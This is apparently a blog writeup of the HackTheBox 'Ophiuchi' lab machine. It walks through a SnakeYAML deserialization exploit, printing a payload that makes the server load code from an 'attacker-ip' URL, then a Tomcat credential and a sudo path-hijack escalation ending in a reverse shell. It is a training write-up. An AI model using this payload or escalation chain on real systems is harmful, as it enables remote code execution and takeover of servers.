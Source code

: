 ```yaml
---
layout: post
current: post
navigation: True
title: Ophiuchi Writeup
date: 2021-07-01 20:00:00
cover: assets/images/ophiuchi.png
class: post-template
subclass: 'post'
author: r3Z3l
---
```


Medium Linux box from HackTheBox.

On rustscan:
- port 22
- port 8080
are open.

checking port 8080 which hosting webpage allow yaml parsing.

I found article related to yaml parsing.
[https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858](https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858)


<pre><code>
!!javax.script.ScriptEngineManager [
		!!java.net.URLClassLoader [[
			!!java.net.URL ["http://attacker-ip/"]
		]]
]
</code></pre>

It request our python server for some files.
we used this exploit to send reverse shell.
[https://github.com/artsploit/yaml-payload](https://github.com/artsploit/yaml-payload)
using this we get shell of tomcat.

It's running on tomcat so let's find it configuration.
reading tomcat config file we get credentials
``admin:whythereisalimit``

After doing ssh we are now admin user.
we get #user-txt 

after checking sudo -l.<br>
we find that we can run sudo with index.go without password.<br>
if we check file index.go we see that path is not properly specified completely for main.wasm and deploy.sh.
![Pasted image 20210609202714.png](assets/images/Pasted image 20210609202714.png)


Let's create main.wasm which returns 1 as a value of info function
using [https://mbebenita.github.io/WasmExplorer/](https://mbebenita.github.io/WasmExplorer/)
![Pasted image 20210609202957.png](assets/images/Pasted image 20210609202957.png)

In deploy.sh let's put a reverse shell.
We got a reverse shell as a root user
we got #root-txt 
